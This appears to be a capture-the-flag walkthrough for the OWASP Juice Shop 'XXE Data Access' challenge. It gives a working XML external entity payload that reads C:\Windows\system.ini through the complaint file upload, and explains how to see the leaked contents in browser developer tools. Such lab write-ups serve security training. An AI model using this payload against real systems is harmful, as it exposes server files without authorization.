 ## XXE Data Access
### Challenge: Retrieve the content of C:\Windows\system.ini or /etc/passwd from the server.
### Category: XXE

While logged in as any user > Complaint > upload file

Submit an xml file with XXE injection, since it is a windows machine that juiceshop is running on currently we will pull the `system.ini` file.

```
<?xml version="1.0"?>
<!DOCTYPE xxe [
<!ELEMENT xxe ANY >
<!ENTITY xxe SYSTEM "file:///c:/Windows/system.ini" >]><xxe>&xxe;</xxe>
```

After clicking submit for the upload file. Use developer tools > `XHR` filter turned on. Check that the contents of `system.ini` file is being displayed on the response tab.